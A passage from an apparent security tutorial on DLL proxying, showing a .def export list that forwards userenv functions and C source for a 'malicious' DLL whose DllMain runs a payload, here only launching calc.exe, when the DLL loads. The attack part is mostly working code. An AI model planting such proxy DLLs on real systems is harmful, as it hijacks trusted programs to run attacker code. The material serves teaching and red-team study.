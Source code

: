 ```bash
GetProfilesDirectoryW=userenv.GetProfilesDirectoryW @146
GetUserProfileDirectoryA=userenv.GetUserProfileDirectoryA @147
GetUserProfileDirectoryW=userenv.GetUserProfileDirectoryW @148
HasPolicyForegroundProcessingCompleted=userenv.HasPolicyForegroundProcessingCompleted @149
LeaveCriticalPolicySection=userenv.LeaveCriticalPolicySection @150
LoadProfileExtender=userenv.LoadProfileExtender @151
LoadUserProfileA=userenv.LoadUserProfileA @152
LoadUserProfileW=userenv.LoadUserProfileW @153
ProcessGroupPolicyCompleted=userenv.ProcessGroupPolicyCompleted @154
ProcessGroupPolicyCompletedEx=userenv.ProcessGroupPolicyCompletedEx @155
RefreshPolicy=userenv.RefreshPolicy @156
RefreshPolicyEx=userenv.RefreshPolicyEx @157
RegisterGPNotification=userenv.RegisterGPNotification @158
RsopAccessCheckByType=userenv.RsopAccessCheckByType @159
RsopFileAccessCheck=userenv.RsopFileAccessCheck @160
RsopLoggingEnabled=userenv.RsopLoggingEnabled @105
RsopResetPolicySettingStatus=userenv.RsopResetPolicySettingStatus @161
RsopSetPolicySettingStatus=userenv.RsopSetPolicySettingStatus @162
UnloadProfileExtender=userenv.UnloadProfileExtender @163
UnloadUserProfile=userenv.UnloadUserProfile @164
UnregisterGPNotification=userenv.UnregisterGPNotification @165
WaitForMachinePolicyForegroundProcessing=userenv.WaitForMachinePolicyForegroundProcessing @166
WaitForUserPolicyForegroundProcessing=userenv.WaitForUserPolicyForegroundProcessing @167
```

With the `.def` file we now need to craft our malicious `.dll` by  reusing the C code from above. To not make it too malicious in the beginning we are simply adding an example `Payload()` which is
launching `calc.exe`:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```
